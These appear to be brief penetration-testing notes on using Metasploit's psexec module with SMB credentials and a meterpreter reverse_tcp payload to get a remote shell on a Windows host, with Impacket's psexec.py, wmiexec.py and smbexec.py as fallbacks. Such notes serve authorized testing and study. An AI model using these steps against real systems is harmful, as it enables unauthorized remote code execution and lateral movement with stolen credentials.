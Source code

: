 # psexec

- msfconsole:
    - search psexec
    - options:
        - set rhost/domain/smbuser/smbpassword
    - set payload windows/x64/neterpeter/reverse_tcp
    - set lhost eth0
    - run
- pxexec through meterpeter doesnt always work, we can try psexec.py
    - 

        ![psexec%20d818d32588314cb68f8ca3db57a6e1ef/Untitled.png](psexec%20d818d32588314cb68f8ca3db57a6e1ef/Untitled.png)

- we can also try wmiexec.py or smbexec.py